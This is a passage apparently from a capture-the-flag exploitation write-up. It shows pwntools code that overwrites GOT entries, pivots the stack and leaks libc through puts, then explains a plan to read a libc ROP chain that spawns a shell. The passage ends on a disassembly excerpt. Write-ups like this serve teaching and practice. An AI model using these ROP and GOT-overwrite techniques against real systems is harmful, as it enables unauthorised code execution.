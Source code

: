```python
# Overwrite GOT using the fread call at the end of main and pivot to rop3
rop1 = ROP(exe)
rop1.raw(exe.got.setbuf + 16)  # Set rbp with the leave instruction
rop1.raw(fread_gadget)
log.info(rop1.dump())

# This is the data that will be written to GOT starting with the entry for setbuf
rop2 = ROP(exe)
rop2.raw(b"AAAAAAAA")  # setbuf GOT
rop2.raw(rop2.find_gadget(["pop rbp", "ret"]))  # fread GOT
# Pivot to rop3 using the leave; ret at the end of main
rop2.raw(buffer_addr + rop3_offset)  # rbp
rop2.raw(rop2.find_gadget(["leave", "ret"]))
log.info(rop2.dump())

# fread GOT has been overwritten with a pop rbp gadget, which will pop the return address pushed by the call and return
# So the call to fread now acts like a ret instruction and the instructions before it can be used to control rdi

rop3 = ROP(exe)

# Leak libc by calling puts
rop3.raw(exe.got.puts + 16)  # rbp
# Set rdi with the instructions before the fread call
rop3.raw(fread_gadget)
# Since the puts GOT has been overwritten, we call it by jumping to the second instruction in the puts PLT
rop3.raw(exe.plt.puts + 6)
```

I originally pivoted to the input buffer before calling `fread`, but after seeing other people's solutions I realized that I can just go directly to `fread` and pivot to the buffer when it returns.

## Reading the libc ROP Chain

Now that we have a libc leak, we just need to read in the last part of the ROP chain that uses gadgets from libc to spawn a shell.
The problem is that we only have 32-byte reads and we just filled the input buffer with more than 2048 bytes of junk.
We need to discard all of that junk by doing a read with more than 2048 bytes, otherwise `fread` will read the data that's already in the buffer instead of requesting more data from the OS.

If we can control `rsi`, then we can get `fread` to read as many bytes as we want, since the second argument for `fread` is the size of each of the chunks to read.
I thought that maybe we can reuse the trick where we overwrite the GOT of some function with `pop rbp; ret` to turn a `call` instruction into a `ret` instruction.
I looked at the other function calls in `main` and found this:

<pre><code><span style="color:#005DD0">0x00000000004011b0</span> &lt;+58&gt;:	<span style="color:#26A269">lea    </span><span style="color:#C01C28">rax</span>,[<span style="color:#C01C28">rbp</span><span style="color:#005DD0">-0x4</span>]
<span style="color:#005DD0">0x00000000004011b4</span> &lt;+62&gt;:	<span style="color:#26A269">mov    </span><span style="color:#C01C28">rsi</span>,<span style="color:#C01C28">rax</span>
<span style="color:#005DD0">0x00000000004011b7</span> &lt;+65&gt;:	<span style="color:#26A269">mov    </span><span style="color:#C01C28">edi</span>,<span style="color:#005DD0">0x40202a</span>
<span style="color:#005DD0">0x00000000004011bc</span> &lt;+70&gt;:	<span style="color:#26A269">mov    </span><span style="color:#C01C28">eax</span>,<span style="color:#005DD0">0x0</span>
<span style="color:#005DD0">0x00000000004011c1</span> &lt;+75&gt;:	<span style="color:#26A269">call   </span><span style="color:#005DD0">0x401040</span> &lt;<span style="color:#A2734C">__isoc99_scanf@plt</span>&gt;
</code></pre>

